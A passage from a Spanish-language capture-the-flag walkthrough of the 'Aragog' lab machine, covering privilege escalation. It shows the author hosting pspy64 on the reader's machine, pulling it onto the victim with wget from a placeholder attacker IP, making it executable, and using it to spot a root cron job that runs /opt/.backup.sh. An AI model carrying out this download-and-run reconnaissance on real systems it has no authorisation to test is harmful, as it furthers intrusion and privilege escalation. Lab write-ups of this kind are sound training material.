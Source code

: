 <h2 id="Privesc">Utilizando pspy64 para Ver Procesos en Ejecución y Escalando Privilegios con Binario de hagrid98</h2>

Vamos a usar la herramienta **pspy64**, para ver si hay algún proceso en segundo plano del que nos podamos aprovechar.

Descárgalo de este link:
* <a href="https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1" target="_blank">Repositorio de DominicBreuker: pspy - Releases</a>

Una vez que lo descargues, lo pasamos a la máquina víctima. 

Activa un servidor en **Python** y con **wget** lo descargamos:
```bash
hagrid98@Aragog:~$ wget http://Tu_IP/pspy64
--2024-11-07 03:10:04--  http://Tu_IP/pspy64
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64  0%[  
pspy64  100%[===================================================>]   2.96M  --.-KB/s    in 0.04s   

2024-11-07 03:10:04 (67.1 MB/s) - ‘pspy64’ saved [3104768/3104768]

hagrid98@Aragog:~$ ls
horcrux1.txt  pspy64
hagrid98@Aragog:~$ chmod +x pspy64
```

Ejecuta **pspy64**:
```bash
hagrid98@Aragog:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/11/07 03:10:17 CMD: UID=1000  PID=15044  | ./pspy64 
2024/11/07 03:10:17 CMD: UID=1000  PID=14972  | bash 
2024/11/07 03:10:17 CMD: UID=1000  PID=14963  | (sd-pam) 
2024/11/07 03:10:17 CMD: UID=1000  PID=14962  | /lib/systemd/systemd --user 

2024/11/07 03:10:17 CMD: UID=0     PID=1      | /sbin/init 
2024/11/07 03:12:01 CMD: UID=0     PID=15052  | /usr/sbin/CRON -f 
2024/11/07 03:12:01 CMD: UID=0     PID=15053  | /usr/sbin/CRON -f 
2024/11/07 03:12:01 CMD: UID=0     PID=15054  | /bin/sh -c bash -c "/opt/.backup.sh" 
2024/11/07 03:12:01 CMD: UID=0     PID=15055  | /bin/bash /opt/.backup.sh
```
Observa que es el binario que encontró **linPEAS** dentro de los archivos BackUp.
